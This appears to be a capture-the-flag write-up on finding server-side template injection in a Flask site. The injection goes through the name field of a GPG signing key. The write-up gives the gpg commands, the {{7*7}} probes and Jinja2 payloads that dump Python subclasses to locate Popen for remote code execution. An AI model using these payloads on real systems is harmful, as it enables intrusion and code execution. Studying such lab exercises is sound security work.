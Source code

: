 There are lots of different exploits we could try here, but let's try to be as simple as possible. When we verify the signature, the output contains the real name that we used when creating the key. Since this field is returned back to us, could we try to exploit it?

Since the site is running Flask, there is a good chance at a SSTI vulnerability. Let's try with the payload {7*7} and see what happens:

```
$ gpg --gen-key
gpg (GnuPG) 2.4.3; Copyright (C) 2023 g10 Code GmbH
This is free software: you are free to change and redistribute it.
There is NO WARRANTY, to the extent permitted by law.

Note: Use "gpg --full-generate-key" for a full featured key generation dialog.

GnuPG needs to construct a user ID to identify your key.

Real name: {7*7}
Email address: gno@s1s.com
You selected this USER-ID:
    "{7*7} <gno@s1s.com>"

<snip>

$ gpg --armor --clear-sign --default-key 82035843FE19BF602210BCC024DB9C048AB31978 message.txt
gpg: using "82035843FE19BF602210BCC024DB9C048AB31978" as default secret key for signing
File 'message.txt.asc' exists. Overwrite? (y/N) y

```

{7\*7} doesn't seem to work, but {{7\*7}} does. The result of {{7\*7}} gets calculated. The application is injectable!

![{7*7}]({7*7}.png) ![{{7*7}}]({{7*7}}.png)

Next, we have to confirm what framework that app is using. We can do this using the {{7\*'7'}} payload.

![SSTI Tree Diagram](ssti.webp) ![{{7*'7'}}]({{7*'7'}}.png)

The payload 7*'7' gives the result 7777777. According to the diagram, this means we're dealing with a Jinja2 or Twig app.

Let's try some Jinja2 payloads. [Source](https://gist.github.com/Yuma-Tsushima07/cc6bf0d5f356dc6cd4b8ea2baf6fa4e2) First of all, we dump all classes using the payload {{ "".__class__.__mro__[1].__subclasses__() }}:

![popen_none](popen_none.png)

We get all the classes! We can confirm that the site is running on the Jinja2 framework.
Our next step is to locate the position of the Popen function, since that function allows remote code execution. We can do this by making the range of the subclasses array smaller and smalle to search for the Popen function. Here are the payloads I used:

```
{{ "".__class__.__mro__[1].__subclasses__()[300] }}
{{ "".__class__.__mro__[1].__subclasses__()[500] }}
{{ "".__class__.__mro__[1].__subclasses__()[400] }}
{{ "".__class__.__mro__[1].__subclasses__()[435] }}
```
